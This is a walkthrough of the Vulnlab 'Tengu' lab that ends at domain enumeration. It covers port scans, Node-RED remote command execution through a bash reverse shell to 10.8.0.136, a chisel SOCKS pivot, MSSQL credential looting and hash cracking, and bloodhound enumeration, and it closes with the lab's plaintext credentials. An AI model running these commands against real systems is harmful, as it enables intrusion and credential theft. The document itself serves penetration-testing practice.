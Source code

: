 # Vulnlab - Tengu

## DC.tengu.vl

```bash
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.tengu.vl
| Issuer: commonName=DC.tengu.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-14T15:26:33
| Not valid after:  2025-03-16T15:26:33
| MD5:   b350:11ed:41ce:ff32:a34f:0088:ce22:96f5
|_SHA-1: 711b:6409:e399:0771:d3d3:7eba:1938:5914:7c84:7528
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SQL.tengu.vl

```bash
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-09-15T15:30:31+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SQL.tengu.vl
| Issuer: commonName=SQL.tengu.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-14T15:26:45
| Not valid after:  2025-03-16T15:26:45
| MD5:   3cd6:9298:18df:b91e:5194:c958:0df4:528b
|_SHA-1: b304:c807:0de4:a171:0c1a:8b16:1f3e:bd29:2e21:99b5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

##

```bash
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 41:c7:d4:28:ec:d8:5b:aa:97:ee:c0:be:3c:e3:aa:73 (ED25519)
1880/tcp open  vsat-control?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Both windows hosts had only RDP service enabled, on linux hosts, there was something hosted on port 1880 which on googling shows it runs Node-RED, which is a flow based development tool for visual programming used in IoT devices

<img src="https://i.imgur.com/DVKxUbk.png"/>

Node-RED is known for getting remote command execution (RCE), to achieve this, we'll need to create a flow by timestamp block following exec block

<img src="https://i.imgur.com/CuLDFKt.png"/>

Replacing the curl command with bash reverse shell

<img src="https://i.imgur.com/HCcZ8G6.png"/>

```bash
bash -i >& /dev/tcp/10.8.0.136/2222 0>&1
```

After having the shell, it can be stabilized with python3 to use it as a normal shell

<img src="https://i.imgur.com/ZhpmGCP.png"/>

From `nodered` directory, we can find some type of hashed password but not really sure who this belongs to and how this can be cracked

<img src="https://i.imgur.com/RgdICoH.png"/>

From sql node properties, we can see the connection string with the username `nodered_connector`

<img src="https://i.imgur.com/DI5KPTP.png"/>

So there's a script to decrypt the node-red credentials, which needs `flows_cred.json` and  `.config.runtime.json`
https://gist.github.com/Yeeb1/fe9adcd39306e3ced6bdfc7758a43519

<img src="https://i.imgur.com/wSSYj93.png"/>

In order to connect to MSSQL, we'll need to performing pivoting since that service isn't exposed we'll use chisel socks proxy

```bash
chisel server --reverse -p 3000
chisel client 10.8.0.136:3000 R:socks
```

<img src="https://i.imgur.com/nsUiv1Y.png"/>

With this, we'll be able to reach port 1433 on sql.tengu.vl

<img src="https://i.imgur.com/7XULYy4.png"/>

Trying to enable `xp_cmdshell` resulted in no luck as this user didn't had privileged in mssql

<img src="https://i.imgur.com/JoofgoC.png"/>

Enumerating the databases, there are two, which are not available by default, `Dev` and `Demo`

<img src="https://i.imgur.com/5fPlFgo.png"/>

Dev didn't had anything interesting while there was one set of credential from Demo

<img src="https://i.imgur.com/001siDc.png"/>

Attempting to crack this with rockyou.txt didn't work as the password wasn't present there however crackstation came in handy here

<img src="https://i.imgur.com/fLZciwp.png"/>

<img src="https://i.imgur.com/62buPKb.png"/>

Having the credentials, we can verify if this is a valid domain user

<img src="https://i.imgur.com/e6T9dEw.png"/>

With `bloodhound-python`, the domain can be enumerated

```bash
proxychains bloodhound-python -d tengu.vl -u t2_m.winters -p 'Tengu123' -c all -ns 10.10.183.37 
```

<img src="https://i.imgur.com/EwzmEoc.png"/>


# References

- https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/
- https://gist.github.com/Yeeb1/fe9adcd39306e3ced6bdfc7758a43519

```
nodered_connector:DreamPuppyOverall25
t2_m.winters:af9cfa9b70e5e90984203087e5a5219945a599abf31dd4bb2a11dc20678ea147
t2_m.winters:Tengu123

```
